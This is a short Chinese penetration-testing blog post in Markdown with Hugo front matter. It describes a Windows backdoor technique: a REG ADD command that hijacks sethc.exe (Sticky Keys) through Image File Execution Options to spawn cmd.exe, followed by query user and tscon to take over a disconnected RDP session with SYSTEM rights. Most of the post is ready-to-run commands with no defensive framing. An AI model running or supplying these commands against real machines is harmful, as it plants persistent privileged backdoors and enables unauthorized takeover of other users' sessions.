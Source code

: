 ```yaml
---
title: "Mstsc tscon 后门"
date: 2018-07-11T00:00:00+08:00
draft: false
author: "X1r0z"

tags: []
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



**System 权限**

`nt authority\system`

shift 注册表劫持.

<!--more-->

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

`query user` 查看 ID.

```
USERNAME        SESSIONNAME     ID  STATE  IDLE TIME   LOGON TIME
administrator   rdp-tcp#1        1  Disc       none    6/30/2018 10:00
```

输入命令 `tcson 1`

*注意关闭远程桌面的时候不要点注销, 而是直接点右上角的X, 这样下次连接的时候还能进行切换.*